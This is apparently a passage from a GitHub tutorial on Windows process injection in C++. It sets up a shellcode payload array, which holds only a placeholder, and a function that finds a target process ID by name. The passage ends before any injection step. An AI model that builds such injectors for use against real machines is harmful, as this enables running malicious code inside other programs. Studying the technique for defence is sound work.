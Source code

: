 ```C++
#include <iostream>
#include <windows.h>
#include <tlhelp32.h>
```

&nbsp;

## **Defining the payload**

This is where the payload that will be injected into the specified process will be defined

```C++
unsigned char payload[] = " <The shellcode goes here> ";

```

&nbsp;

## **GetProcessID Function**

This function takes the name of a process and searches for the process by name by creating a snapshot of all processes, then iterating through the list of processes. If the process is found it will return the process ID of the specified process (DWORD)

&nbsp;

```C++
DWORD GetProcessID(const std::wstring& processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        std::wcerr << L"CreateToolhelp32Snapshot failed. Error: " << GetLastError() << std::endl;
        return 0;
    }

    PROCESSENTRY32 pe;
    pe.dwSize = sizeof(PROCESSENTRY32);

    if (!Process32First(hSnapshot, &pe)) {
        std::wcerr << L"Process32First failed. Error: " << GetLastError() << std::endl;
        CloseHandle(hSnapshot);
        return 0;
    }

    DWORD processID = 0;
    do {
        if (processName == pe.szExeFile) {
            processID = pe.th32ProcessID;
            break;
        }
    } while (Process32Next(hSnapshot, &pe));

    CloseHandle(hSnapshot);

    if (processID == 0) {
        std::wcout << L"Process not found." << std::endl;
    }
    else {
        std::wcout << L"Process ID of " << processName << L" is: " << processID << std::endl;
    }

    return processID;
}
```
